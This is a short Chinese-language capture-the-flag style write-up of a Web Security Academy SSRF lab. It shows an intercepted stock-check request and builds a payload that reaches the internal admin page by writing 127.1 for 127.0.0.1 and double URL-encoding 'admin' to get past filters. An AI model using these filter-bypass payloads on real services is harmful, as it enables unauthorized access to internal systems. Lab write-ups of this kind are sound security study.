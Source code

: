 一道SSRF题目，让我对SSRF攻击有了更深的理解，

感觉ssrf就是绕过外面的限制，直接走内部请求来获取信息

发现在stock的页面中有一个奇怪的请求

```
POST /product/stock HTTP/2
Host: 0a76004a032a5060807658cc009400c1.web-security-academy.net
Cookie: session=9bwUTzb5deghei87BHnSZR52ndQTaJAg
Content-Length: 107
Sec-Ch-Ua: 
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a76004a032a5060807658cc009400c1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a76004a032a5060807658cc009400c1.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

这里请求了stockApi来获取信息，

我们伪造一个127.0.0.1/admin来实现内网的请求从而获取权限

但是过滤了.0和admin

127.0.0.1==127.1可以绕过一层过滤

admin可以采用双重url编码的方式绕过

```
在 SQL 注入攻击中，双层 URL 编码绕过机制是一种黑客利用 URL 编码的漏洞绕过安全检查的手法。原始的 URL 编码是将特殊字符转换成 % 后面跟着它的 ASCII 值的十六进制表示。例如，' 被编码为 %27，" 被编码为 %22。

然而，某些 Web 应用程序在接收到 URL 编码值时，会自动对它进行解码，然后再进行一次处理。这意味着攻击者可以使用双层 URL 编码来绕过输入过滤和验证机制。

攻击者可以首先将攻击字符串进行一次 URL 编码，然后将编码后的值再次进行 URL 编码。这样，第一层的编码将被解码，然后第二层的编码也将被解码。这样做的目的是让关键的特殊字符在第二次解码时恢复成原始状态。
```

主要是某些Web会自动解码，感觉全靠尝试

然后即可构造payload

```
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

然后实现了越权